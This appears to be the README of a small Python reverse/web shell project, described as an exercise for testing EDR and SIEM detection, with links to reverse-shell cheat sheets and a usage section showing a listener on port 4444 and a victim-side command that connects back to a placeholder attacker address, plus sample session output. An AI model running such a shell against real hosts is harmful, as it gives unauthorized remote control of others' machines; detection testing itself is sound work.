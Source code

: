 # simple-webshell-py

A simple reverse / web shell in python.

This code was a simple exercise used for extended testing of EDR and SIEM platforms to try and avoid, but also encourage detection.

After finding great inspiration from various online sources, this quick and dirty code has been chopped up, documented and modified for fleixbility and readability. 

https://backdoorshell.gitbooks.io/oscp-useful-links/content/backdoorsweb-shells.html
https://github.com/security-cheatsheet/reverse-shell-cheatsheet
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
https://www.thepythoncode.com/article/create-reverse-shell-python

# Usage

On the attacker host:

    attacker@ip-x-x-x-x:~$ python3 /tmp/listener.py
    [*] Listening on 0.0.0.0:4444
    [*] Shell from: ('y.y.y.y', 49957)
    yars> ls -lah
    total 32
    drwxr-xr-x   7 neu  foo   224B Feb 10 21:48 .
    drwxr-xr-x   6 neu  foo   192B Feb 10 21:48 ..
    drwxr-xr-x  12 neu  foo   384B Feb 10 21:48 .git
    -rw-r--r--   1 neu  foo   1.0K Feb 10 21:48 LICENSE
    -rw-r--r--   1 neu  foo   248B Feb 10 21:48 README.md
    -rwxr-xr-x   1 neu  foo   1.7K Feb 10 23:16 listener.py
    -rwxr-xr-x   1 neu  foo   1.0K Feb 10 23:14 shell.py

    yars> ping 1.1.1.1 -c 4
    PING 1.1.1.1 (1.1.1.1): 56 data bytes
    64 bytes from 1.1.1.1: icmp_seq=0 ttl=59 time=33.694 ms
    64 bytes from 1.1.1.1: icmp_seq=1 ttl=59 time=10.370 ms
    64 bytes from 1.1.1.1: icmp_seq=2 ttl=59 time=9.607 ms
    64 bytes from 1.1.1.1: icmp_seq=3 ttl=59 time=11.022 ms

On the victim host:

    victim@neu:~$ python3 /tmp/shell.py --host x.x.x.x
    [+] Listener: Welcome!!!
    [+] Command rcvd: ls -lah
    [+] Command rcvd: ping 1.1.1.1 -c 4

